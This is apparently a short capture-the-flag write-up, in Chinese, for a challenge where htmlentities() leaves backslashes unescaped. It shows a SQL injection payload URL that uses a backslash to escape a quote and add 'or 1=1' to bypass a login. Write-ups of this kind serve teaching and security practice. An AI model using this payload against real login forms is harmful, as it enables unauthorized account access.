 ## Writeup 
### challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用"\"将原SQL语句中的第二个单引号转义，成功逃逸引号，payload:http://foobar/index.php?username=\\&password=%20or%201=1%20limit%201%23
